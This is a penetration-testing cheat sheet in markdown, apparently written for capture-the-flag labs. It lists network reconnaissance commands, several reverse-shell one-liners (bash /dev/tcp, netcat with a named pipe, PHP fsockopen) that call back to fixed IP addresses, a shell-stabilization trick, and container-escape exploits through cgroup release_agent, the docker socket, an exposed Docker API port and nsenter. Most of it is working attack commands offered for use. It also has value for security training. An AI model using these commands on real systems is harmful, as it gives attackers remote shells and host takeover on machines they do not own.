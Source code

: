 # Reconnaissance

## Passive

## Active

### Host discovery via ARP Scan

Scan hosts in local subnet:

arp-scan -l

arp-scan -l -I eth0

or

nmap -sn -PR <targets>

### Host discovery via ICMP scan

ICMP Ping scan:

nmap -sn -PE <targets>

ICMP 


# Reverse shell

## Bash reverse shell

The simplest method is to use bash, which is available on almost all Linux machines. This script was tested on Ubuntu 18.04, but not all versions of bash support this function:

/bin/bash -i >& /dev/tcp/10.10.205.203/9999 0>&1

or

$ exec 5<>/dev/tcp/10.10.205.203/9999
$ cat <&5 | while read line; do $line 2>&5 >&5; done

## Netcat reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.205.203 1234 >/tmp/f

## PHP reverse shell

If the target machine is a web server that supports PHP, this language will be an excellent choice for a reverse shell:

php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

If this does not work, you can try replacing &3 with consecutive file descriptors.


## Stablize remote shell

If you would like to "stabilize your shell" for easier ability in typing commands, you can use the usual upgrade trick (assuming you are running in a bash shell. If you are running within zsh, you will need to have started your netcat listener within a bash subshell... it should be easy enough to re-exploit):


(on the reverse shell) python3 -c "import pty; pty.spawn('/bin/bash')"

(press on your keyboard) Ctrl+Z

(press on your keyboard) Enter

(on your local host) stty raw -echo

(on your local host) fg (you will not see your keystrokes -- trust yourself and hit Enter)

(press on your keyboard) Enter

(press on your keyboard) Enter

(on the reverse shell) export TERM=xterm

You now have a stable shell, where you can safely use the left-and-right arrow keys to move around your input, up-and-down arrow keys to revisit command history, Tab for autocomplete and safely Ctrl+C to stop running programs!

# Priv escalation

## Check sudo

sudo -l

## Privlidged container escape


### Exploit privlidged capabilities


1. capsh --print
Check capabilities first

2.
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

Note: We can place whatever we like in the /exploit file (step 5). This could be, for example, a reverse shell to our attack machine.

### Exploiting docker socket

1. ls -la /var/run | grep sock
srw-rw---- 1 root docker 0 Dec 9 19:37 docker.sock

confirm you can run docker commands (be root in container or be in docker group as a lower-privileged user)
 
2. docker run -v /:/mnt --rm -it alpine chroot /mnt sh

### Exposed Docker port 2375

1. curl http://10.10.85.243:2375/version

2. docker -H tcp://10.10.85.243:2375 ps

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further.

### Namespace abuse

For this vulnerability, we will be using nsenter (namespace enter). This command allows us to execute or start processes, and place them within the same namespace as another process. In this case, we will be abusing the fact that the container can see the "/sbin/init" process on the host, meaning that we can launch new commands such as a bash shell on the host. 

Use the following exploit: nsenter --target 1 --mount --uts --ipc --net /bin/bash

